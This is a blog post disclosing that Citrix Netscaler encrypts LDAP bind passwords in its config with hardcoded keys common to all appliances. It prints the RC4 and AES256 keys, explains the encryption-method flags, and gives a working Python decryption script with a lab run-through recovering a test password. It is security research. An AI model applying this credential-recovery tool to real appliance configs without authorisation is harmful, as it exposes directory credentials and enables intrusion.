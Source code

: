 ```yaml
---
layout: post
title: Citrix Netscaler config decryption
permalink: /posts/citrix-decrypt/
redirect_from:
  - /citrix-decrypt/
---
```


Citrix Netscaler (or whatever they're calling it now) uses hardcoded encryption keys to encrypt at least some passwords stored in the appliance config, most importantly for LDAP bind passwords. This post details how to recover the cleartext for them.

As a side note - **the passwords for accessing the appliance itself via CLI or GUI are hashed, not encrypted**. You can still attempt to break these using hashcat but it requires bruteforcing.

However, some other values in the config like LDAP bind passwords are encrypted and can be recovered as by default they are encrypted by hardcoded keys that seem to be common to all Netscalers. These static encryption keys are compliled into the `libnscli90.so` library on the appliance. As of 10.5 this was the RC4 key `2286da6ca015bcd9b7259753c2a5fbc2`. At some point Citrix changed the default key and cipher used to encrypt cleartext values. The default key is now 
```
351CBE38F041320F22D990AD8365889C7DE2FCCCAE5A1A8707E21E4ADCCD4AD9
```
and the appliance now (12.0) uses AES256-CBC instead of RC4. I figured out after a quick bit of RE that the version signifier seems the be the `-encryptmethod` flag, where `ENCMTHD_3` signifies it is using AES256-CBC and the new default key.   


### Additional notes
If you add an old style (RC4) encrypted value to a newer appliance it will decrypt it, then re-encrypt using the new ENCMTHD_3 technique. A small number examples online appear to use the `ENCMTHD_2` value, which is uses the new key and AES256-ECB instead of CBC. 

*If the config line says -kek at the end you'll need to pull key encryption keys off the appliance and do a little more reversing, see [this blog post for a reference on the Netscaler KEK](https://www.ferroquesystems.com/resource/citrix-adc-security-kek-files/)*


## Decrypting
Here's a quick guide on how to decrypt these LDAP passwords:

1. If there is a `-kek` flag on the config line this means it is using a seperate key to encrypt the password instead of the hardcoded one. In theory you should be able to pull this off a compromised Netscaler but a config alone wont give you the cleartext. See [this blog post for a reference on the Netscaler KEK](https://www.ferroquesystems.com/resource/citrix-adc-security-kek-files/). I will look into doing this at some point and update this post.
2. If there is no `ENCMTHD_` value, it is likely encrypted using the original RC4 method (I'm calling this ENCMTHD_1). You can decode this using the below script. 
3. Otherwise if there is `ENCMTHD_3` or `ENCMTHD_2` and no `-kek` it uses the new AES256-CBC or AES256-ECB encryption method. You can also decode this using the below script.

An example line from a new config may look like 
```
add authentication ldapAction LDAP_mgmt -serverIP 192.168.200.130 -serverPort 636 -ldapBase "DC=citrix,DC=lab" -ldapBindDn readonly@citrix.lab -ldapBindDnPassword b65f2142d01fe706083173b064c04cfc6b81ab2417d39d63d2b3216176d0e638b89cbca0f1c4294db56b66668f94ff0f -encrypted -encryptmethod ENCMTHD_3 -ldapLoginName sAMAccountName -searchFilter "&(memberof=CN=NSG_Admin,OU=AdminGroups,DC=citrix,DC=lab)" -groupAttrName memberOf
```
indicating that it is encrypted with AES256-CBC using the default key.

Extract the ldapBindDnPassword and pass it to the script:
```
# python decitrix.py b65f2142d01fe706083173b064c04cfc6b81ab2417d39d63d2b3216176d0e638b89cbca0f1c4294db56b66668f94ff0f ENCMTHD_3
test12345678secretldappassword
```

## Decrypting script
The below python script will decrypt LDAP and likely similar encrypted values (haven't tested anything else) obtained from the config.
{% highlight python %}
#!/usr/bin/python

import base64
from Crypto.Cipher import AES,ARC4
import binascii,sys


BS = 16
unpad = lambda s : s[:-ord(s[len(s)-1:])]

#thanks  https://stackoverflow.com/a/12525165 for crypto snippet
class AESCipher:
    def __init__( self, key ):
        self.key = key

    def decrypt( self, enc, mode ):
        if mode == "ENCMTHD_2":
                cipher = AES.new(self.key, AES.MODE_ECB )
        elif mode == "ENCMTHD_3":
                iv = "\x00" * 16
                cipher = AES.new(self.key, AES.MODE_CBC, iv )

        else:
            print "Invalid mode"
            return False

        return unpad(cipher.decrypt( enc ))


def main():
        #Keys hardcoded into netscaler libnscli90.so
        aeskey = binascii.unhexlify("351CBE38F041320F22D990AD8365889C7DE2FCCCAE5A1A8707E21E4ADCCD4AD9")
        rc4key = binascii.unhexlify("2286da6ca015bcd9b7259753c2a5fbc2")

        if len(sys.argv) == 3:
            ciphertext = sys.argv[1]
            mode = sys.argv[2]

            if mode == "ENCMTHD_3" or mode == "ENCMTHD_2":
                c = AESCipher(aeskey)
                decoded = c.decrypt(binascii.unhexlify(ciphertext),mode)
                if mode == "ENCMTHD_3":
                        print decoded[16:]
                else:
                        print decoded

            elif mode == "ENCMTHD_1": #old rc4 mode
                out_cipher = ARC4.new(rc4key)
                decoded = out_cipher.decrypt(binascii.unhexlify(ciphertext))
                print decoded


if __name__ == "__main__":
        main()
{% endhighlight %}



#### Runthrough

```
>add authentication ldapAction LDAP_mgmt -serverIP 192.168.200.130 -serverPort 636 -ldapBase "DC=citrix,DC=lab" -ldapBindDn readonly@citrix.lab -ldapBindDnPassword test12345678secretldappassword -ldapLoginName sAMAccountName -searchFilter "&(memberof=CN=NSG_Admin,OU=AdminGroups,DC=citrix,DC=lab)" -groupAttrName memberOf
Done
>show running
..snip..
add authentication ldapAction LDAP_mgmt -serverIP 192.168.200.130 -serverPort 636 -ldapBase "DC=citrix,DC=lab" -ldapBindDn readonly@citrix.lab -ldapBindDnPassword b65f2142d01fe706083173b064c04cfc6b81ab2417d39d63d2b3216176d0e638b89cbca0f1c4294db56b66668f94ff0f -encrypted -encryptmethod ENCMTHD_3 -ldapLoginName sAMAccountName -searchFilter "&(memberof=CN=NSG_Admin,OU=AdminGroups,DC=citrix,DC=lab)" -groupAttrName memberOf
..snip..

# python decitrix.py b65f2142d01fe706083173b064c04cfc6b81ab2417d39d63d2b3216176d0e638b89cbca0f1c4294db56b66668f94ff0f ENCMTHD_3
test12345678secretldappassword
```

